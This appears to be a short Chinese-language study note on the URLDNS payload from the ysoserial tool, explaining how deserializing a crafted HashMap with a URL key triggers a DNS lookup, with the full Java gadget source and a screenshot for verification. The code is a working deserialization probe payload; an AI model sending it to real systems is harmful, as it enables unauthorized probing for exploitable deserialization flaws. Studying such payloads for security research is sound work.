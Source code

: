 ## ysoserial的URLDNS

`URLDNS Payload` 不依赖任何的第三方库 , 通过HashMap类的反序列化可以触发DNS查询

先看代码：

```java
public class URLDNS implements ObjectPayload<Object> {

        public Object getObject(final String url) throws Exception {

                //Avoid DNS resolution during payload creation
                //Since the field <code>java.net.URL.handler</code> is transient, it will not be part of the serialized payload.
                URLStreamHandler handler = new SilentURLStreamHandler();

                HashMap ht = new HashMap(); // HashMap that will contain the URL
                URL u = new URL(null, url, handler); // URL to use as the Key
                ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.

                Reflections.setFieldValue(u, "hashCode", -1); // During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered.

                return ht;
        }

        public static void main(final String[] args) throws Exception {
                PayloadRunner.run(URLDNS.class, args);
        }

        static class SilentURLStreamHandler extends URLStreamHandler {

                protected URLConnection openConnection(URL u) throws IOException {
                        return null;
                }

                protected synchronized InetAddress getHostAddress(URL u) {
                        return null;
                }
        }
}

```

### 漏洞验证

参数设置：

![image-20220207084911888](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220207084911888.png)
